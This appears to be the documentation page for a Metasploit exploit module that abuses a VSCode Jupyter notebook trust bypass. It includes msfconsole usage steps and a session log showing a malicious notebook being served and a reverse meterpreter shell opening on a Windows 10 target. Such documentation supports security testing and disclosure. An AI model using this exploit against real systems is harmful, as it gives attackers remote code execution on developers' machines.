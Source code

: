 ## Vulnerable Application

VSCode when opening an Jypiter notebook (.ipynb) file bypasses the trust model.
On versions v1.4.0 - v1.71.1, its possible for the Jypiter notebook to embed
HTML and javascript, which can then open new terminal windows within VSCode.
Each of these new windows can then execute arbitrary code at startup.

During testing, the first open of the Jypiter notebook resulted in pop-ups
displaying errors of unable to find the payload exe file. The second attempt
at opening the Jypiter notebook would result in successful exeuction.

Successfully tested against VSCode 1.70.2 on Windows 10.

### Install

From https://code.visualstudio.com/updates/v1_70

https://update.code.visualstudio.com/1.70.2/win32-x64-user/stable

https://update.code.visualstudio.com/1.70.2/linux-deb-x64/stable


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use modules/exploits/multi/misc/vscode_ipynb_remote_dev_exec`
1. Do: `set lhost [ip]`
1. Do: `run`
1. In VSCode, open the URL (File -> Open -> Paste/type the URL)
1. After the pop-up errors, open the file again.
1. You should get a shell.

## Options

## Scenarios

### VSCode 1.70.2 on Windows 10

```
resource (ipynb)> use modules/exploits/multi/misc/vscode_ipynb_remote_dev_exec
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
resource (ipynb)> set fetch_srvport 9090
fetch_srvport => 9090
resource (ipynb)> rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.10.147:4444 
[*] Starting up web service...
[*] Using URL: http://192.168.10.147:8080/project.ipynb
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100


[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sending stage (201798 bytes) to 192.168.10.100
[*] Sending stage (201798 bytes) to 192.168.10.100
[*] Meterpreter session 1 opened (192.168.10.147:4444 -> 192.168.10.100:56964) at 2024-03-21 12:38:13 +0000
[*] Meterpreter session 2 opened (192.168.10.147:4444 -> 192.168.10.100:56967) at 2024-03-21 12:38:14 +0000
^C[-] Exploit failed [user-interrupt]: Interrupt 
[*] Server stopped.
[-] rexploit: Interrupted
msf6 exploit(multi/misc/vscode_ipynb_remote_dev_exec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-Q0HUOEI
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x64/windows
meterpreter > shell
Process 9632 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.4170]
(c) Microsoft Corporation. All rights reserved.

C:\Users\h00die>code --version
code --version
1.70.2
e4503b30fc78200f846c62cf8091b76ff5547662
x64

C:\Users\h00die>
```
